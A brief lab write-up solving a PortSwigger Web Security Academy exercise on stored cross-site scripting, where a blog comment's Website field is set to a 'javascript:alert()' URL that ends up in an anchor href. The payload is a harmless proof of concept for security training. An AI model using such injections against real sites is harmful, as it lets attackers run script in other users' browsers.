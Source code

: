 # Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded
# https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded

```bash
# Create a random comment
Comment: a
Name: a
Email: a@gmail.com
Website: abc
```

```bash
# After that check comments again and inspect your name button.

<a id="author" href="abc">a</a>

# Now post a comment like this

Comment: abc
Name: abc
Email: abc@gmail.com
Website: javascript:alert()

# We completed the lab. If you want to see the alert click back to blog and click to abc.
```
